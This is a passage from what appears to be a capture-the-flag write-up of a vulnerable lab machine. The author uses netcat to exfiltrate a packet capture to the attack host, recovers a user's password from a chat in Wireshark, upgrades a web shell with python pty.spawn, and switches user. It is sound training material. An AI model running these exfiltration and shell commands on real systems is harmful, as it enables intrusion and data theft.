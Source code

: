 Yes `/sbin/raw_vs_isi/hint.pcapng`!

### pcap

We transfer the file with netcat:

  * On our attack machine: `nc -lp 1234 > pcap`
  * On the server: `nc 192.168.0.13 1234 < /sbin/raw_vs_isi/hint.pcapng`

We open the pcap file with [wireshark](https://www.wireshark.org/). There is a
lot of information in this file, over 6 000 trams.
On the 6 212 we notice some sort of text. By following the TCP stream (wireshark
function) we discover what seems to be a chat exchange:

> heya
>
> hello
> What was the name of the Culprit ???
>
> saman and now a days he's known by the alias of 1337hax0r
>
> oh...Fuck....Great...Now, we gonna Catch Him Soon :D
>
> Yes .. We have to !! The mad bomber is on a rage
>
> Ohk...cya
>
> Over and Out

Great, what does it means? We know that saman is one of the user on the machine.
Maybe we got some hints about it password or something like that.

### interactive shell

In order to execute a su, we need a interactive shell (with
[pty/tty](https://en.wikipedia.org/wiki/Pseudoterminal)).
Once more [pentest monkey](http://pentestmonkey.net/blog/post-exploitation-without-a-tty)
will help us:

    python -c 'import pty; pty.spawn("/bin/sh")'

As `/bin/sh` is a symlink to dash, we directly use bash:

    python -c 'import pty; pty.spawn("/bin/bash")'

We now need to try to connect as saman.

## Saman

With our beautiful shell we jut have to `su saman` to try to connect as saman:

    www-data@acid:/var/www/html/Challenge/Magic_Box$ su saman
    su saman
    Password: 1337hax0r

It works! Let us try `sudo su`:
